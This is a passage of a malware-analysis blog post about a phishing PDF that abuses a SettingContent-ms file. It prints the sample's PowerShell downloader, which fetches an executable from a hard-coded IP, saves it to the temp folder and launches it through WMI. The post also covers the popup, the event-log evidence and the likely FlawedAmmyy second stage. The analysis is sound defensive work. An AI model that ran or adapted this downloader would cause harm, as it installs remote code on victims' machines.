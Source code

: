 

Basically, it runs the following PowerShell:



       $a='http://169.239.129.117/cal'
       $b=\"$env:temp\update12.exe\"
       $webc = [System.Net.WebClient]::new()
       $webc.DownloadFile($a, $b)
       $pclass = [wmiclass]'root\cimv2:Win32_Process'
       $pclass.Create($b, '.', $null)



It creates a WebClient object, uses it to download a malicious exe, and
uses WMI to start the process.

## User Experience

On opening the document, there's not much there, but it does try to open
the file immediately. As the Adobe Javascript documentation indicated,
there is a pop up when this occurs:

![](/img/inovoice.pdf-open.png)

On clicking open, a blue PowerShell window pops up for a second, and
then disappears. I suspect if it was able to talk to the c2 ip, it would
disappear much faster.

If we check in the PowerShell event logs (remember we configured Windows
to do PowerShell script block logging in [this
post](/emotet-doc-sample.md), we can see the script ran as
expected:

![](/img/inovoice.pdf-event.png)

## Stage Two - update12.exe

At the time of this writing, the second stage download server was no
longer up. This isn't surprising, since the document has a creation date
of 12 July, and was first submitted to VT that same day.

According to others who have looked at this file, it sounds like it was
downloading FlawedAmmyy
([ref](https://www.proofpoint.com/us/threat-insight/post/ta505-abusing-settingcontent-ms-within-pdf-files-distribute-flawedammyy-rat),
[ref](https://securityaffairs.co/wordpress/74639/hacking/settingcontent-ms-flawedammyy-rat.md))

## Summary

While not nearly as common as macro enabled documents in phishing, there
are still actors out there using PDFs to spearphish. This one was using
a technique that Spector Ops [blogged about on June
11](https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39),
the SettingContent-ms file. It was pretty simple to break down the
document and see what's going on.





